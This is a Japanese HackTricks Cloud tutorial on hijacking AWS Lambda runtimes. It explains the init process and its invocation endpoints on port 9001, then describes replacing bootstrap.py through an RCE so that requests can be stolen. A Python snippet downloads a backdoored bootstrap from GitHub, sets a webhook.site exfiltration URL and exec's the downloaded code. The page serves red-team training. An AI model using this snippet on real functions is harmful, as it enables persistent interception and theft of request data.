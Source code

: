# AWS - Lambdaリクエストの盗難

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**呼び出し**を**送信**します。
2. initプロセスはポート**9001**でリッスンし、いくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラー応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスから呼び出しを取得するループを持ち、ユーザーのコードを呼び出して処理します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

bootstrapはユーザーコードをモジュールとして読み込むため、ユーザーコードによって実行されるコードは実際にはこのプロセス内で発生しています。

## Lambdaリクエストの盗難

この攻撃の目的は、ユーザーのコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。このようにして、**悪意のあるbootstrap**プロセスは**initプロセスと通信を開始**し、リクエストを処理しますが、**正当な**bootstrapは**トラップ**されて悪意のあるものを実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーのコードが正当な**`bootstrap.py`**プロセスによって実行されているため、達成するのは簡単なタスクです。したがって、攻撃者は次のことができます：

* **現在の呼び出しの偽の結果をinitプロセスに送信**し、initがbootstrapプロセスがさらに呼び出しを待っていると考えさせます。
* **`/${invoke-id}/response`**にリクエストを送信する必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得することができます（[ここで提案されたように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)）または再度**`/2018-06-01/runtime/invocation/next`**にリクエストすることでも取得できます（[ここで提案されたように](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行します。
* ステルス性の目的で、lambda呼び出しパラメータを攻撃者が制御するC2に送信し、その後リクエストを通常通り処理することが可能です。
* この攻撃では、システムまたは[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から**`bootstrap.py`**の元のコードを取得し、悪意のあるコードを追加して、現在のlambda呼び出しから実行するだけで十分です。

### 攻撃手順

1. **RCE**脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)）。
3. **悪意のあるbootstrapを実行する**。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
